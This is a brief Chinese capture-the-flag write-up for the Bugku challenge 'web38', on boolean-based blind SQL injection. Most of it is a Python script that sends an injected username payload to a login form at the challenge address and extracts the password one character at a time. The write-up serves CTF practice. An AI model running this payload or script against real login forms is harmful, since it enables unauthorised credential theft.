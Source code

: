 # web38

![img](../../../image/bugku/1113547220043.png)

题目描述
> **基于布尔的sql盲注**

emmmm
![img](../../../image/bugku/2086648225798.png)

直接扔脚本吧
```python
  1 import requests
  2
  3 url = 'http://114.67.246.176:18706'
  4
  5
  6 def asscii_list():
  7     str_list = []
  8     for i in range(32, 127):
  9         str_list.append(chr(i))
 10     return str_list
 11
 12
 13 def flag():
 14     str_list = asscii_list()
 15     a = ''
 16     for i in range(1, 50):
 17         for j in str_list:
 18             payload = "admin'^(ascii(mid((password)from(%s)))<>%s)#" % (i,
 19                                                                         ord(j))
 20             data = {"username": payload, "password": 'admin'}
 21             res = requests.post(url, data=data)
 22             if 'password error' in res.text:
 23                 a += j
 24                 print("获取一个%s" % j)
 25                 break
 26         if len(a) >= 32:
 27            break
 28     print("flag:%s" % a)
 29
 30
 31 flag()
```
